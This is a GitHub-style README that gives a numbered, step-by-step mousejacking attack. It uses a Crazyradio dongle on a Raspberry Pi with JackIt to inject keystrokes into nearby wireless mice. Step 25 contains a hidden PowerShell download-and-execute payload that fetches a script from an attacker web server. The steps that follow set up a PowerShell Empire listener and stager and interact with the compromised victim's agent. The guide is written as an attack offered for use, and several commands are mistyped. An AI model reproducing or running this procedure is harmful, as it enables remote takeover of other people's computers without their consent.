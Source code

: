 ### MOUSE JACKING 

## REQUIREMENTS :-

crazy radio PA usb adapter (chip nRF 24L)

=> MINI RASPBERRY PI 0

=> 3.5/3.7 v BATTERY

## GITHUB LINK :->

https://github.com/insecurityofthings/jackit

## RASPBERRY PI COMMANDS :=>

Step 1 :->  sudo apt-get update

Step 2 :->  sudo apt-get upgrade

Step 3 :->  sudo apt-get install sdcc binutils python python-pip git openssh-server

Step 4 :->  pip install -U pip

Step 5 :->  pip install -U -I pyusb

Step 6 :->  pip install -U platformio

Step 7 :->  gitclone https://github.com/BastilleResearch/nrf-research-firmware

Step 8 :->  cd nrf-research-firmware

Step 9 :->  ls

Step 10 :->  sudo make

Step 11 :->  connect usb dongle to raspberry pi 

Step 12 :->  type => sudo make install

Step 13 :->  gitclone https://github.com/insecurityofthings/jackit.git

Step 14 :->  cd..

Step 15 :->  cd jackit

Step 16 :->  cat requirements.txt

Step 17 :->  sudo pip install -r requirements.txt

Step 18 :->  cd nrf-research-firmware

Step 19 :->  cd tools

Step 20 :->  cd jackit

Step 21 :->  sudo touch pspwn

Step 22 :->  sudo vi pspwn

Step 23 :->  GUI r

Step 24 :->  DELAY 200

Step 25 :->  STRING powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring(http://apachewebserverIP/filename')"     ((EXAMPLE FOR THIS =>> HTTP://192.168.0.0/PSPWN))  

Step 26 :->  enter  =>>  PRESS ESC  =>>  TYPE wq:!  =>>  press ENTER (to save the file)



### to search the listner :=>> 



Step 27 :->  sudo python nrf24-scanner.py -L

Step 28 :->  CTRL + C



## USING EMPIRE IN KALI-LINUX ATTACKER MACHINE



Step 29 :->  sudo apt-get update

Step 30 :->  sudo apt-get upgrade

Step 31 :->  sudo apt-get install -y git apache2 python-pip python-dev python-m2crypto swig

Step 32 :->  sudo pip install pycrypto iptools pydispatcher flask

Step 33 :->  sudo git clone https://github.com/powershellEmprie/Empire.git

Step 34 :->  cd Empire/setup

Step 35 :->  sudo ./install.sh

Step 36 :->  enter

Step 37 :->  cd..

Step 38 :->  cd ./Empire

Step 39 :->  listeners

Step 40 :->  info

Step 41 :->  set name filename(example pspwn)

Step 42 :->  set host http://apachewebserverIP ADDRESS:8080

Step 43 :->  execute

Step 44 :->  list

Step 45 :->  use stager launcher

Step 46 :->  set Listener filename(example pspwm)

Step 47 :->  set Base64 False

Step 48 :->  set Outfile filename.ps1(example pspwn.ps1)

Step 49 :->  generate

Step 50 :->  exit  =>>  ls

Step 51 :->  now copy the file to apache web server folder

Step 52 :->  sudo cp filename.ps1(example pspwn.ps1) /var/www/html/name of the file(example pspwn)

Step 53 :->  sudo ./Empire



## JACKIT TERMINAL 



Step 54 :->  sudo python jackit.py --script pspwn 

Step 55 :->  cntrl + C

Step 56 :->  enter the key no of the mouse targets on the screen for example 1 ,2 ,3.



## KALI LINUX EMPIRE TERMINAL



Step 57 :->  agents

Step 58 :->  interact agentname

Step 59 :->  ls

Step 60 :->  getpid

Step 61 :->  getuid

Step 60 :->  cd c:\Users\ (to run powershell service) 










____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________



